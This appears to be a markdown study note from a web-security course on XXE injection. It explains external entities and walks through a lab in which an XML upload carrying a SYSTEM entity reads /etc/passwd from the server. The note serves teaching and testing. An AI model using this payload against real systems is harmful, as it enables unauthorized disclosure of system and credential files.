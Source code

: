 ## XXE - External Entities Injection
### Introduction
- Some apps use XML to tranfer data
- XML: Extensible Markup Language
- Format has potentially dangerous features
- Parsers that process the data and pass it on can be vulnerable
- XXE Injecton: XML eXternal Entity Injection
- XML Entity: A simple way of presenting data or special characters
- An external entity is a custom entity defined outside the document
- It needs to be located when the XML file is passed
- Can be abused to read files or execute code

### Lab
- Access the first XXE lab
- Simulates an internal system that allows an administrator to bulk update the information of their users across a system
- Allows uploading XML
- Upload the xxe safe file

  ```
  <?xml version="1.0" encoding="UTF-8"?>
  <creds>
      <user>testuser</user>
      <password>testpass</password>
  </creds>
  ```
- Apps shows it was uploaded and parsed successfuly, showing the output

  ![image](https://github.com/user-attachments/assets/a7a6e67e-c9f6-4a5a-8c84-89f880d58329)

- Upload the XXE exploit file

  ```
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE creds [
  <!ELEMENT creds ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
  <creds><user>&xxe;</user><password>pass</password></creds>
  ```
- App executed the command

  ![image](https://github.com/user-attachments/assets/5441ad68-1fc8-4fb5-8406-c33831a72c53)

- Not common, teams use patched or secure passes
- Still worth testing
- Should test API endpoints expecting JSON by sending XML data
















